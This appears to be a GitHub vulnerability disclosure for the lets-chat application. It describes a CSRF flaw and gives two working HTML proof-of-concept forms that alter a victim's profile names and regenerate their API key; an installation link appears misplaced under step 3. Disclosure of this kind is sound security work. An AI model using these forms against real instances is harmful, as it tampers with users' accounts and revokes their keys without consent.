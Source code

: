 # :bug: Description

The `lets-chat` application is a simple `chat` used for `small teams`, and can be hosted locally in order to have a better control on it.
The chat however is vulnerable against a `POST-based CSRF` issue which occurs in the `/account/profile` endpoint and many others, leading to `personal information` change and `api key` revocation/generation.

# :fire: PoC

1. Install the chat using the `steps` described here:
2. Create a new `user` and login
3. Create a malicious file containing the following CSRF PoC: https://github.com/sdelements/lets-chat/wiki/Installation

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localtest.me:5000/account/profile" method="POST">
      <input type="hidden" name="display&#45;name" value="HACKED" />
      <input type="hidden" name="first&#45;name" value="HACKED;" />
      <input type="hidden" name="last&#45;name" value="HACKED" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

4. Victim opens the crafted file (many scenarios are plausible) and it's name/display name are changed

**Another POC for regenerating keys:**

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localtest.me:5000/account/token/generate" method="POST">
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

4. Opening this the `api key` created before will be `deleted` and another one created (invalidates previously connected applications)
